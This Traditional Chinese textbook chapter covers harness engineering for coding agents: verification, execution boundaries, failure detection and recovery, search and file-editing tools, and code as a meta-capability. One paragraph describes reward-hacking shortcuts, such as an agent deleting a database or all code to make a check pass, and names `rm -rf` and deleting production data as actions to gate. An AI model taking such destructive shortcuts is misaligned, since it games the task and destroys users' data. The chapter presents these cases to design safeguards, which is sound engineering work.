第一章引入了 Harness 工程的概念和 **Agent = Model + Harness** 的公式。這裡的 Harness 包含了核心公式中的上下文和工具，以及約束、驗證和糾正機制——五者共同構成了第一章定義的 Harness。Coding Agent 大概是 Harness 工程收益最大的領域——程式碼編寫是所有 Agent 任務中**可驗證性最高**的一類，約束、驗證和糾正都有現成的基礎設施可以依託。本節聚焦於 Coding Agent 場景下的具體實踐。

能不能穩定執行，往往不取決於用了多強的模型，而取決於圍繞 Agent 搭建的基礎設施有多紮實。第一章將 Harness 分為兩個層面——**上下文與工具**（讓 Agent 能做事）和**約束、驗證與糾正**（讓 Agent 不做錯事）。在 Coding Agent 這個場景下，它們落地為具體的工程元件：

- **驗收基線**：什麼算做完了——測試套件、CI 管道（持續整合流水線，程式碼提交後自動執行的一系列檢查）、程式碼審查標準
- **執行邊界**：Agent 能碰什麼不能碰什麼——模組邊界、依賴規則、權限控制
- **回饋訊號**：自動化的對錯判斷——Linter（程式碼規範檢查工具，能自動發現格式錯誤和潛在問題）輸出、測試結果、型別檢查錯誤
- **回退手段**：出了問題怎麼恢復——Git 版本控制、沙盒隔離、快照回滾

**Coding Agent 為什麼特別適合 Harness 工程。**

可以用任務清晰度和驗證自動化程度兩個維度，將任務分成四種狀態。目標明確且結果可自動驗證，是最適合 Agent 發揮的區域；目標清楚但驗收還得靠人盯，吞吐量的天花板就是人的審查速度；有自動化回饋但目標模糊，系統會高效地往錯誤方向跑；兩者都缺，Agent 基本派不上用場。表 5-1 展示了這四種狀態，Harness 的目標就是把儘可能多的任務推向「目標明確 + 驗證自動化」這個象限。

表 5-1 任務清晰度與驗證自動化程度的四象限

| | 結果可自動驗證 | 結果需人工驗證 |
|----------|----------------------------------------------|---------------------------------------|
| **目標明確** | 最佳區域：修復有測試用例的 bug | 吞吐量受限：程式碼重構需人工審查 |
| **目標模糊** | 高效地跑偏：用 linter 最佳化「程式碼質量」 | 難以啟動：「讓 UI 更好看」 |

程式碼編寫天然處於這個象限的核心——測試套件提供明確的驗收標準，Linter 和型別檢查器提供即時的自動化驗證，Git 提供完美的版本控制和回退能力。這就解釋了為什麼 Coding Agent 是當前所有 Agent 型別中成熟度最高的：不是因為程式碼生成模型特別強，而是因為軟體工程幾十年積累的基礎設施天然構成了一套強大的 Harness。

**業界實踐。**

三個案例的 Harness 實踐印證了上述原則：

- **大規模程式碼遷移案例**（來自一家大型科技公司公開分享的大規模程式碼遷移實踐）：關鍵不在模型強，而在 Harness 做對了三件事——知識必須存在於程式碼庫本身（Agent 看不到的等於不存在）、約束編碼進 Linter 和 CI 而非寫在文件裡、驗證和糾正全鏈路自動化。
- **LangChain**：僅透過最佳化 Harness（系統提示詞、工具中介軟體、自驗證迴圈）就顯著提升了基準任務表現。尤其「用 Agent 分析失敗軌跡來改進 Harness」的方法，使 Harness 工程從人工經驗驅動轉向資料驅動。
- **Anthropic**：將長任務拆分為兩個角色——初始化 Agent 負責把大任務分解為任務清單，執行 Agent 負責逐步推進並把中間成果（如已完成的程式碼檔案、更新後的任務清單等）留給下一輪繼續使用。這種分工解決了長時執行 Agent「一次想做太多」或「過早聲稱完成」的問題。

**從 Coding Agent 到通用 Harness 設計原則。**

Coding Agent 的 Harness 實踐為所有 Agent 系統提供了可遷移的設計原則：

1. **約束優先於指導**：能用程式碼強制的規則就不要用文件建議。Linter 規則、型別約束、CI 檢查的價值遠超系統提示詞中「請遵循……」式的指導——前者是「做不了」，後者只是「建議別做」。
2. **驗證要自動化**：人工審查是不可擴充套件的瓶頸。測試套件、程式碼質量檢查、行為監控——這些基礎設施的投入回報遠高於增加人力。
3. **回饋越快越好，越結構化越好**：錯誤資訊越詳細、越接近錯誤發生的時刻，Agent 的糾正效率越高。第二章的 Agent 狀態列技術（詳細錯誤資訊、工具呼叫計數器）正是這一原則的體現。
4. **回退要可靠**：Agent 在安全網內操作才能大膽試錯。Git 分支、沙盒環境、快照機制確保任何錯誤都可逆。

**約束的另一層目的：防止過程性錯誤。** 驗收基線管的是結果對不對，執行邊界管的是**過程**——即使結果正確，用錯誤的方法達成也不行。修復資料庫故障時直接把庫刪了重建，「修復」確實生效，但資料沒了；修復編譯錯誤時把程式碼全刪重寫，編譯確實透過，但實現沒了。這類破壞性捷徑總是存在：即使把限制寫進最終評估指標，Agent 也常能找到繞過去的辦法——這正是第七章討論的 reward hacking 在 Agent 任務中的日常形態。因此生產級 Harness 要對 `rm -rf`、刪除生產資料、覆蓋未讀檔案這類危險動作設定專門的檢查與審批（本章安全一節的語義解析、第四章的 Sidecar 複核），約束的是**動作**而非僅僅是結果。第七章的 RLVP（驗證路徑懲罰，「獎勵結果、懲罰路徑」）從訓練側回答同一個問題：在最終結果獎勵之外，對過程中可驗證的違規動作施加懲罰，把「不用破壞性手段」內化為模型的工程常識。對已有模型，Harness 護欄是外部約束；對可訓練模型，過程懲罰是內部內化——兩者目標一致。

**工具編排：故障邊界控制**。成熟的 Coding Agent 支援並行工具呼叫，Harness 視角下的獨特問題是**故障如何傳播**：一個工具失敗時，哪些呼叫應當中止、哪些應當繼續？原則是故障只在同一批並行呼叫內傳播，不上升到父級操作——比如同時讀取三個檔案，其中一個找不到，應該只報告這一個失敗，而不是把另外兩個也取消掉，更不是讓整個任務中止。這種精細的故障邊界控制避免了「一個命令失敗導致整個任務中止」的脆弱模式。並行呼叫、流式解析與級聯中止的具體機制見本章「實現技巧」一節。

### 故障與錯誤恢復

上一節給出了 Harness 工程的原則與元件，本節深入其中最能拉開工程差距的一塊——**故障與錯誤恢復**。第一章的消融實驗已經展示過問題的嚴重性：僅僅缺失一條工具結果回饋，就足以讓 Agent 陷入無限迴圈；而真實生產環境中的故障遠比實驗裡多樣。本節系統地回答三個問題：生產級 Harness 會遇到哪些故障？如何偵測與恢復？又在什麼時候必須終止[^ch5-3]？

[^ch5-3]: 本節的故障分類與機制分析基於對 Claude Code 等生產級 Agent 實現的原始程式碼研究。具體實現隨版本快速演進，本節只提煉其中穩定的工程原則。

**故障分類學：四層故障。** 系統應對的第一步是分類。按故障發生的位置，可以分為四層：

- **API 層**：限流（HTTP 429）、服務過載、請求超時、連線中斷、輸出觸頂被截斷。這類故障與任務內容無關，是基礎設施的噪聲。
- **工具層**：幻覺呼叫（呼叫了不存在的工具）、引數畸形（不符合工具的輸入約束）、執行拋異常，以及最危險的一種——工具反覆返回同一個錯誤，而模型不加改變地反覆重試。
- **上下文層**：上下文視窗溢位、壓縮失敗、軌跡結構損壞（如工具呼叫缺少配對的結果訊息）。
- **控制流層**：死迴圈（反覆執行相同操作卻毫無進展）與死亡螺旋（錯誤觸發的恢復邏輯自身又呼叫 LLM、再次出錯、連鎖反應）。

**偵測：先分類，再計數。** 捕獲故障後的第一個判斷不是「要不要重試」，而是「值不值得重試」。可重試的錯誤（限流、過載、網路抖動）重試才有意義；不可重試的錯誤（引數不合法、權限不足、工具不存在）原樣重試多少次都是同樣的結果，必須改變輸入或策略。生產級 Harness 維護一張錯誤到恢復策略的對映表，而不是籠統地「出錯就重試」。

單次錯誤之外，還要偵測**模式**。一是重複呼叫指紋：對「工具名 + 引數」計算指紋，相同指紋反覆出現就是無進展迴圈的明確訊號——第一章消融實驗中 Agent 反覆呼叫同一工具，正是這種模式。二是連續失敗計數：每條恢復路徑維護獨立的計數器，為後文的熔斷提供依據。

還有一類故障不表現為錯誤，需要專門的**活性與完整性監控**。流式連線最危險的失敗模式不是斷開（這會立即報錯），而是靜默卡死——連線建立成功但資料流停止，像水管通著但不出水；SDK 的超時機制往往只覆蓋初始連線而非傳輸過程，因此生產級 Agent 需要獨立的閒置看門狗（watchdog timer，超過設定時間沒有新輸出就判定為卡死），超時後主動殺死掛起的流並觸發重試。可推廣為一條原則：**每個長連線都需要活性訊號，而非僅依賴連線超時**。完整性監控則針對軌跡結構：發現工具呼叫缺少配對的結果訊息時，系統會在注入上下文前自動修復配對關係，而不是把結構異常拋給模型或使用者。一個值得注意的工程細節是，部分生產級 Agent 同時執行產品模式和訓練資料收集模式——產品模式下可以用佔位符修補缺失的訊息，訓練模式下則拒絕修復，因為合成佔位符會汙染訓練資料。「產品模式寬容、訓練模式嚴格」的雙重標準，體現了 Harness 與模型訓練的深度耦合。

**恢復：分級升級，逐級透明。** 恢復手段按對使用者透明的程度分級，能用低階別解決就不升級：

1. **靜默重試**。可重試錯誤的預設動作。兩個細節決定成敗：指數退避疊加隨機抖動，避免大量用戶端同步重試造成二次擁塞，並尊重服務端返回的等待時長提示；區分前臺與後臺呼叫——主迴圈的請求失敗要重試，標題生成、輸入建議這類輔助性後臺呼叫失敗則直接放棄，否則後臺重試會擠佔主鏈路的配額，形成「重試放大」。
2. **降級與接續**。重試無效時，改變請求本身再試。以輸出觸頂（生成到一半被長度限制截斷）為例：先靜默提升輸出上限重發，仍不夠再在訊息末尾追加元指令、讓模型從中斷點接續生成。主模型持續過載時降級到備用模型（需先剝離舊模型私有的格式塊，否則新模型無法解析歷史訊息）；高成本模式被限流時暫時回落到標準模式。
3. **暴露給使用者**。所有自動手段用盡後才呈現錯誤，並附上已經嘗試過的恢復動作。

工具層錯誤走另一條路：**不終止會話，把錯誤變成模型的輸入**。幻覺呼叫會收到「工具不存在」的結構化錯誤結果；引數校驗失敗會收到附帶輸入約束提示的錯誤；畸形引數（本該是物件卻輸出了字串）在執行前先經過程式化修復。這些錯誤以普通工具結果的身份進入上下文，由模型在下一輪自行糾正——這正是前文「回饋越結構化越好」原則的應用：喂回的錯誤越具體，模型自我糾正的成功率越高。

這一節的核心原則是：**錯誤處理的邊界不是單次請求，而是整個恢復迴圈**。在確認無法恢復之前，中間錯誤不應暴露給消費者——無論是使用者還是訂閱事件的下游系統：恢復期間扣留錯誤訊息，恢復成功則消費者毫無感知，全部失敗才一併釋放。這正是第一章「在確認無法恢復之前，不暴露中間態」這一糾正原則的工程化。

**終止：每條恢復路徑都要有上限。** 恢復機制本身也可能失效，因此每條恢復路徑都必須有明確的熔斷上限：上下文壓縮連續失敗若干次就放棄壓縮，權限分類連續失敗就回退到人工詢問，輸出接續最多嘗試固定輪數。閾值從哪來？答案是產線資料而非拍腦袋。以 Claude Code 的壓縮熔斷為例，「連續 3 次」的閾值來自真實會話統計——曾有一個會話在這條恢復路徑上連續失敗三千餘次，僅這類無效重試每天就在全球浪費約 25 萬次 API 呼叫；逾千個會話出現過 50 次以上的連續失敗。3 次正是「絕大多數故障在此之前已恢復」與「繼續重試基本無望」之間的經驗拐點。

比單點熔斷更隱蔽的是**死亡螺旋**：錯誤路徑上觸發的邏輯自身又呼叫 LLM，再次出錯，連鎖觸發。一個真實的連鎖形態：Agent 因上下文溢位而停止，觸發「結束時自動提交程式碼」的停止掛鉤（Agent 結束時自動執行的清理邏輯），掛鉤呼叫 LLM 生成 commit message，再次上下文溢位，再次觸發掛鉤。防護靠兩條：在錯誤路徑上停用一切會再次呼叫模型的副作用邏輯（寧可丟掉一次輔助功能，如自動記憶提取），以及用遞迴深度計數器偵測並打斷殘餘的連鎖。最後，在所有自動化機制之上還需要全域性的終止與升級條件：最大迭代輪數、會話預算上限，以及連續失敗超過閾值時升級到人工干預（第四章的拒絕熔斷器即是一例）。

回到第一章的思考題：除工具結果缺失外，工具反覆報同一錯誤、幻覺呼叫、上下文壓縮丟失狀態、任務本身無解，都可能讓 Agent 陷入迴圈。偵測靠「錯誤分類 + 型態辨識」，恢復靠「分級升級」，終止靠「熔斷器 + 全域性上限 + 人工升級」——三者合起來，就是 Harness 對「Agent 可能永遠跑下去」這個問題的完整回答。這些機制解決的不是「模型能力不足」的問題，而是「系統在邊界條件下的魯棒性」問題：模型會越來越強，但網路會斷、程序會掛、使用者會做出意料之外的操作。說得再本質些——**Agent 的可靠性不取決於它犯不犯錯，而取決於每類錯誤是否都有對應的偵測、恢復與終止路徑**。

### Coding Agent 的實現技巧

上面的工作流程是理想狀態。要讓它在實踐中真正跑起來，還需要幾個具體的實現技巧——在保證思考質量的前提下，把響應速度提上去、把上下文消耗降下來。它們是第二章、第四章討論的通用 Agent 技術在程式設計領域的具體應用。

**並行工具呼叫、流式執行與級聯中止。**

傳統 Agent 實現往往採用序列模式：生成一個工具呼叫、執行完、拿到結果、再決定下一步。這種嚴格的排隊等待浪費了大量時間。

現代 Coding Agent 應充分利用流式響應：第二章在討論模型輸出順序時介紹了這一機制——第一個工具呼叫的引數一經生成完整、透過校驗，即可立即開始執行，無需等待模型生成後續的工具呼叫。例如，模型在一次推理中要連續輸出搜尋程式碼、查設定檔案、讀日誌三個工具呼叫，第一個呼叫的引數剛一完整透過校驗就能立即啟動，與後兩個呼叫的生成過程重疊進行；彼此獨立的呼叫之間還可並行執行而非排隊等待。這種重疊執行顯著降低了端到端延遲，使 Agent 的響應更加敏捷。

並行執行的另一面是故障處理。每個工具定義應宣告自己是否支援並行執行（預設為否，失敗安全）；當某個呼叫失敗時，透過級聯中止機制終止同一批並行啟動、依賴該結果的其他呼叫，但不波及獨立的呼叫和父級操作——這正是 Harness 工程一節中「故障邊界控制」原則的具體實現。

**上下文的精細化管理。**

Coding Agent 面臨的根本挑戰是程式碼庫通常很大，但模型上下文視窗有限。即使先進模型號稱支援百萬級 token，把整個程式碼庫一股腦塞進上下文既不經濟也沒必要。智慧的上下文管理需在多個層面展開。

在檔案讀取層面，Agent 不應總是讀取檔案全部內容。對大型檔案，工具應支援按行號範圍讀取特定片段——比如唯讀第 100 到 150 行，而不是把幾千行的檔案全部載入。返回內容時附加行號標註——每行程式碼都以實際行號作為字首。這個看似簡單的設計帶來巨大價值：模型可精確引用「在 `src/main.py` 的第 42 行」，減少歧義並使後續編輯操作更可靠。

在命令執行層面，終端機輸出的處理同樣需要謹慎。編譯或測試可能產生數千行輸出，如果全部注入上下文會迅速耗盡預算。第四章介紹的長輸出截斷與持久化機制在這裡廣泛應用：保留輸出的前若干行（通常包含錯誤上下文）和後若干行（通常包含錯誤總結），中間以一行提示替代，並說明完整輸出已儲存到臨時檔案供按需檢視。

**環境資訊的動態注入。**

這是第二章介紹的 Agent 狀態列技術在 Coding Agent 中的集中體現。與通用 Agent 不同，Coding Agent 高度依賴執行環境的狀態。每次推理前應在上下文末尾以 Agent 狀態列形式注入以下關鍵環境資訊：

- **當前工作目錄**：確保路徑引用不會出錯
- **git 分支**：知道自己在主分支還是特性分支上工作
- **最近提交記錄**：瞭解專案的演化脈絡
- **未暫存和已暫存的變更概覽**：清楚已經做了哪些修改

這些資訊不應硬編碼在靜態系統提示詞中——那樣會破壞 KV Cache 效率——而應作為動態的、追加式的 Agent 狀態列即時生成並注入。透過這種方式，Agent 獲得了「環境感知」能力，每個決策都基於對當前狀態的準確理解，而非過時的假設。

**命令執行環境的狀態持久化。**

在與程式碼互動時，許多操作依賴環境狀態：切換目錄、啟用虛擬環境、設定環境變數、啟動後臺服務。如果每次命令都在全新 shell 中執行，這些狀態都會丟失——Agent 剛用 `cd` 切到專案目錄，下一條命令又回到了根目錄，不得不反覆做同樣的設定。更糟糕的是，某些操作（如啟用 Python 虛擬環境）的效果只在當前 shell 會話中有效，無法跨會話傳遞。

因此應維護一個持久化的終端機會話，在 Agent 啟動時建立並在整個互動過程中保持活躍。每次命令都在這個共享終端機中執行，保留工作目錄、環境變數和會話狀態。這種設計更符合人類開發者的工作習慣——我們通常就是在一個長期執行的終端機視窗中工作。當然，Agent 也應保留啟動隔離終端機的能力以支援並行任務，但持久化會話應是預設模式。

**即時的語法回饋機制。**

這再次體現了 Agent 狀態列技術的價值。Agent 修改程式碼後，不應等到使用者明確要求測試時才檢查語法。更高效的做法是：檔案寫入操作一完成，工具層就自動執行相應的 linter 或語法檢查器，將檢查結果作為工具返回值的一部分呈現給 Agent。如果偵測到語法錯誤，Agent 在下一輪推理中立即看到詳細錯誤資訊——就像程式設計師在 IDE 中打錯一個括號，編輯器立刻畫紅線提醒一樣。這種即時回饋機制顯著降低了錯誤修復成本，因為 Agent 可以在錯誤引入的那一刻就進行修正，而不需要等到執行測試時才發現問題。

這五個實現技巧——並行與流式、上下文管理、環境感知、狀態持久化、即時回饋——共同構成了高效 Coding Agent 的技術基礎。它們不是孤立的最佳化點，而是相互配合的設計決策，共同指向一個目標：讓 Agent 能夠像經驗豐富的開發者那樣流暢地工作。

### Coding Agent 中的搜尋工具

在龐大的程式碼庫中定位相關程式碼是 Coding Agent 工作的起點。圖 5-3 對比了幾類互補搜尋工具，說明成熟 Coding Agent 應如何根據任務性質選擇檢索方式。




**正規表示式內容匹配**（grep/ripgrep）：最傳統的搜尋方式，逐行掃描檔案內容進行模式匹配。當 Agent 知道要查詢的具體文字（函式名、變數名、錯誤訊息）時，能快速準確地定位所有出現位置。正規表示式（用特殊符號描述文字模式的語法，如 `def handle.*` 匹配所有以 `handle` 開頭的函式定義）的強大表達能力可以捕捉複雜模式，不僅可以搜尋字面文字，還可以搜尋符合特定結構的程式碼片段。在實際使用中還應支援檔案型別過濾（只搜尋 Python 檔案）和路徑模式過濾（排除測試目錄）以減少噪音。根本侷限在於只能找到文字上匹配的內容，無法理解語義——搜尋「使用者認證」時，無法找到雖然沒有「認證」二字但確實處理登入邏輯的函式。

**檔名模式匹配**（glob）：不看檔案內容，只在檔案系統的路徑結構中查詢符合模式的檔案。如 `**/*.test.ts` 遞迴找到所有 TypeScript 測試檔案，`src/components/**/Button.tsx` 在 components 下任意深度查詢 Button.tsx。速度比內容搜尋快得多（不需要開啟和讀取檔案），是 Agent 探索專案結構的第一步——透過快速掃描整個檔案系統建立專案的組織框架。

**語義程式碼搜尋**：與前兩種精確匹配方法不同，試圖理解查詢和程式碼的「意義」。需解決兩個關鍵問題：

- **結構感知的分塊**：程式碼有嚴格的語法結構，應按函式、類、方法等完整語義單元切分，而非按固定字元數盲目切割。
- **混合檢索**（第三章詳細介紹了這套技術棧）：向量嵌入（稠密嵌入）擅長找到語義相似但用詞不同的程式碼（比如搜尋「驗證使用者身份」能找到名為 `check_credentials` 的函式），關鍵詞匹配（BM25，一種基於詞頻和文件長度的經典檢索演算法）擅長精確匹配函式名和變數名。兩者並行執行後透過重排序模型（reranker，用交叉編碼器對候選結果做精細化的相關性排序）合併排序，互補覆蓋。

語義搜尋特別適合探索性任務，如在不熟悉的程式碼庫中尋找「與資料庫互動」或「處理使用者輸入驗證」相關的程式碼。

不過，是否值得為語義搜尋建立嵌入索引，業界存在明顯的路線之爭。以 Claude Code 為代表的終端機型 Agent 刻意**不建嵌入索引**，純靠 agentic 的 grep + glob 現場檢索——這樣既不必維護隨程式碼演化而不斷陳舊的索引、也省掉了一整套索引基礎設施，更避免了把程式碼嵌入外發到第三方服務的風險。Cursor 這類 IDE 型工具則走相反路線：願意為**跨檔案的語義召回**付出建索引的成本，靠嵌入索引在大型程式碼庫中快速找到語義相關但用詞不同的片段。兩條路線的取捨，本質上是在「基礎設施與資料外發的代價」和「跨檔案語義召回的收益」之間做權衡。

**符號級定義與引用查詢**：基於 IDE 的「跳轉到定義」「查詢所有引用」能力（LSP，即 Language Server Protocol，語言伺服器協定——一種讓編輯器與語言分析引擎通訊的標準協定），能區分同名符號的定義和呼叫——例如它知道 `authenticate` 在第 42 行是函式定義、在第 189 行是呼叫，而文字搜尋只能找到所有包含該字串的行。對程式碼重構尤其關鍵——重新命名函式時不能僅靠文字搜尋（函式名可能出現在註釋或字串中），必須透過符號搜尋精確定位定義和所有真正的呼叫點。

這四種搜尋方式構成互補的工具箱，實踐中往往組合使用：先用語義搜尋找到相關模組，再用正則匹配精確定位具體程式碼行，最後透過符號搜尋追蹤呼叫鏈——「從粗到細、從語義到語法」的漸進式策略。

### Coding Agent 中的檔案編輯工具

檔案編輯的難點不在於操作本身，而在於如何讓 LLM 以高效又可靠的方式告訴系統「改哪裡、怎麼改」。圖 5-4 對比了五種檔案編輯方案，展示人類語言表達與機器精確執行之間的根本張力。




**差異描述 + Apply Model**：模型不是直接指定如何編輯檔案，而是生成一份變更描述——可以是類似 git diff（即 `git diff` 命令輸出的那種「刪了哪幾行、加了哪幾行」的格式）的差異文字，也可以是帶省略標記的程式碼骨架（用「此處保持不變」之類的註釋跳過未修改部分）。這份描述隨後交給專門的「應用模型」（Apply Model）——通常是另一個更小、更快的 LLM——負責與原檔案合併、產出完整的新檔案。這種分離關注點的設計讓主模型專注高層程式碼邏輯、應用模型專注底層文字操作。樸素實現的脆弱性在於合併環節：變更描述與檔案實際程式碼有微小出入時需判斷是否同一位置，存在多個相似程式碼片段時可能合併到錯誤的地方。Cursor 是這條路線持續演進的代表：主模型輸出帶省略標記的程式碼骨架，由專門訓練的 fast-apply 小模型重寫出完整檔案，並藉助推測解碼（speculative decoding，以原檔案內容為草稿並行驗證）把合併速度做到每秒上千 token——用工程投入換取了這條路線的可靠性和速度。

**舊字串到新字串**（Old String → New String）：Claude Code 採用的方案。模型提供 old string（要被替換的原文）和 new string（替換後的新文字），框架執行簡單的字串查詢替換。優勢是可預測性和透明性——old string 在檔案中存在且唯一則成功，否則失敗，不存在模稜兩可。代價是刪除大段程式碼時需完整輸出所有原始內容，一個字元的偏差就會匹配失敗；同一程式碼出現多次時需提供更長的上下文來消除歧義。

**行號定位**（Old Line Numbers → New String）：模型指定「刪除第 X 到 Y 行，插入新內容」。行號精確無歧義，大段刪除只需兩個數字。但模型「數」行號容易出錯，尤其檔案很長時。實踐中通常在讀取檔案時給每行加上行號標註來緩解，但每次編輯後後續行號都會變化，這就限制了多處編輯的並行性。

**類 Vim 編輯命令**：借鑑 Vim 編輯器的命令體系，支援複製、剪下、貼上等豐富操作。對重組程式碼（將函式從一處移動到另一處）非常高效。但命令語法的學習負擔較大，最強的模型能較好使用，較小的模型錯誤率則會明顯上升。

**字串首尾匹配**（Old String Start + End → New String）：可以看作舊字串替換方案的改進。模型不需要輸出完整的 old string，只需提供要刪除內容的開頭幾行和結尾幾行，中間部分可省略。框架透過匹配這個開頭和結尾來定位替換區域，只要這對「首尾」組合在檔案中唯一就能準確定位。這種方案綜合了文字替換的可靠性和行號方案的效率——處理大段程式碼刪除時無需輸出數百行原始程式碼，只需展示邊界即可。同時因為仍然基於內容匹配而非抽象行號，模型犯錯的風險相對較低。

**實踐建議**。綜合來看，主流 Coding Agent 在兩條路線上各有代表：Claude Code 採用「舊字串到新字串」方案——可靠性優先、實現簡單、無需額外模型；Cursor 則把 Apply Model 路線做到了極致——以專用 fast-apply 模型的訓練和推理投入，換取更高的編輯吞吐。對自建 Agent 而言，「舊字串到新字串」是最穩妥的起點；處理大段改動時「字串首尾匹配」是更經濟的折中；行號方案僅在 IDE 深度整合（編輯器即時維護行號對映、並能在每次編輯後立即重新供給模型）的場景下才具備可靠性，否則容易因行號漂移而失效。

## 程式碼：通用 Agent 的元能力

前一部分展示瞭如何建構一個可靠的 Coding Agent——從架構設計到工具實現再到 Harness 工程。但程式碼生成的價值遠不止於寫程式。

> **什麼是「元能力」？** 普通能力是 Agent 能做某件具體的事——回答問題、呼叫某個 API、生成一段文字。**元能力**（meta-capability）是一種「能創造其他能力」的能力：Agent 用它當場寫出新工具、新約束、新表達形式來完成任務，而不必事先把所有能力都預製好。程式碼生成正是這樣的元能力——它精確、可執行、可組合，因此既能產出新工具（指令碼、API 呼叫序列），也能產出新約束（斷言、校驗規則），還能產出新的表達形態（HTML 表單、PPT、影片幀）。

正因如此，程式碼在 Agent 體系中扮演的角色遠超「寫程式」。接下來六節就分別展示這種元能力在程式設計之外的六個發揮方向：(1) 思考工具——用程式碼替代自然語言進行嚴格推理；(2) 業務規則約束——用程式碼固化政策避免模型幻覺；(3) 多媒體生成——用程式碼生成 PPT/影片/視覺化；(4) 系統介面卡——用程式碼連線異構 API；(5) 生成式 UI——用程式碼動態生成表單與介面；(6) 自舉——用程式碼創造新 Agent。

這六個方向並非平行羅列，而是按「元能力作用物件」由內向外組織：

1. **思維本身**——用程式碼替代易錯的自然語言推理（思考工具）；
2. **業務規則**——把模糊的政策編碼為可執行約束（業務規則約束）；
3. **內容呈現**——生成 PPT、影片與視覺化產物（多媒體生成）；
4. **系統介面**——橋接異構 API，自動適應資料格式演化（系統介面卡）；
5. **使用者介面**——動態構造表單與互動介面（生成式 UI）；
6. **Agent 自身**——用程式碼創造新 Agent，形成自舉（區別於第八章不改權重的「自我進化」）。

沿著這條「由內而外、最終回到自身」的脈絡閱讀，能更清楚地看到程式碼作為元能力的統一價值。按需創造新工具是這一元能力的進一步延伸，第八章將展開。

### 程式碼作為思考工具

LLM 在自然語言理解和生成上表現驚人，但在精確計算、符號操作或嚴格邏輯推導上卻有根本短板。原因在於：模型思考本質上是機率性的、近似的，而數學和邏輯問題要求確定性的、精確的答案。用一個具體對比說明：

```
問題："一個班有 40 名學生，其中 60% 選修了數學，45% 選修了物理，25% 兩門都選了。
      只選了物理沒選數學的有多少人？"

純自然語言推理（容易出錯）：          程式碼推理（精確可驗證）：
"60%選數學 = 24人，                   math = int(40 * 0.60)    # 24
 45%選物理 = 18人，                   phys = int(40 * 0.45)    # 18
 25%都選 = 10人，                     both = int(40 * 0.25)    # 10
 只選物理 = 24 - 10 = 14人"           only_phys = phys - both  # 8
→ 誤從數學人數中減，答案錯誤          → print(only_phys)  # 8 ✓
```

讓 LLM 負責理解問題並寫出程式碼，讓程式碼直譯器負責精確計算——這種分工讓兩者各司其職。

Mathematica 創始人 Stephen Wolfram 對此提出了深刻洞察。在 LLM 出現之前，已經存在一類能做精確數學計算的系統——它們使用**符號計算**（Symbolic Computation）的方式工作，即用數學符號而非近似數值來處理表示式。例如，普通計算器會把 $\sqrt{2}$ 算成 1.414，但符號計算系統會保持 $\sqrt{2}$ 的精確形式，只在需要時才轉為小數。Wolfram 建立的 Wolfram Alpha 就是這麼系統，使用者輸入數學問題，它返回精確答案。然而它的自然語言理解相當脆弱、覆蓋面也窄——它依賴一套內建的語法解析，能識別的問法有限，問法稍作改變就可能解析失敗，更無法處理開放域的多步推理。LLM 恰好彌補了這個短板——它擅長理解各種自然語言表達，但不擅長精確計算。新的協同模式是：讓 LLM 負責理解使用者的自然語言問題，識別其中的數學或邏輯結構，並轉化為形式化語言（如 Mathematica 語言或 Python 的 SymPy 庫）；然後交給專門的符號計算引擎或約束求解器執行，獲得精確結果。

> **實驗 5-1 ★★：使用程式碼生成工具提升數學解題能力**
>
> **實驗目標**：驗證 Agent 透過 Code Interpreter 輔助數學思考的準確性提升。
>
> **技術方案**：為 Agent 配備安裝了 sympy、numpy、scipy 等數學庫的 Python 沙盒。Agent 遇到數學問題時將其形式化為 Python 程式碼：sympy 進行符號計算（微積分、方程求解），scipy 進行數值最佳化，numpy 進行矩陣運算。生成的程式碼在沙盒中執行返回精確結果。
>
> **驗收標準**：使用 AIME 風格題目（對標美國數學邀請賽）評測。對比純思維鏈思考和程式碼輔助思考的準確率，要求程式碼輔助模式顯著更高。檢查程式碼是否正確使用數學庫，求解過程是否邏輯清晰。
>

> **實驗 5-2 ★★：使用程式碼生成工具提升邏輯思考能力**
>
